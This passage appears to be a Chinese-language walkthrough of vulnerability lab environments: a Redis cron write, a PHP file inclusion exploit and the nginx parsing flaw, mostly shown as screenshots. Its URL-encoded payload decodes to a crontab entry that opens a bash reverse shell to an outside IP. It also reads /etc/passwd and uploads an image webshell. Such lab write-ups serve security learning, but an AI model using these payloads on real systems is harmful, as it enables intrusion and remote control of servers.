 进行url编码

```
%74%65%73%74%0a%73%65%74%20%31%20%22%5c%6e%5c%6e%5c%6e%5c%6e%20%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%32%31%32%2e%31%32%39%2e%32%33%38%2e%31%38%2f%31%30%30%30%30%20%30%3e%26%31%5c%6e%5c%6e%5c%6e%5c%6e%0a%63%6f%6e%66%69%67%20%73%65%74%20%64%69%72%20%2f%65%74%63%2f%0a%63%6f%6e%66%69%67%20%73%65%74%20%64%62%66%69%6c%65%6e%61%6d%65%20%63%72%6f%6e%74%61%62%0a%73%61%76%65%0a%0a%61%61%61
```

![image-20220306193710314](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203061937451.png)

构造请求

![image-20220306193809845](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203061938044.png)

请求成功

![image-20220306200314603](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203062003672.png)

### 4、监听端口 getshell成功

![image-20220306200327862](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203062003925.png)

## php/inclusion

环境启动后，访问`http://212.129.238.18:8090/phpinfo.php`即可看到一个PHPINFO页面

![image-20220306201248172](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203062012270.png)

访问`http://212.129.238.18:8090/lfi.php?file=/etc/passwd`，可见的确存在文件包含漏洞。

![image-20220306201213874](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203062012088.png)

### 1、利用exp.py

执行`python2 exp.py 212.129.238.18 8090 100  `

![image-20220306203727912](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203062037130.png)

可见，执行到第289个数据包的时候就写入成功。然后，利用lfi.php，即可执行任意命令：

![image-20220306203752249](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203062037298.png)

## nginx/nginx_parsing_vulnerability

上传图片马

​     ![image-20220306204543215](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203062045258.png)                          

打开这张图片马，后面加/.php
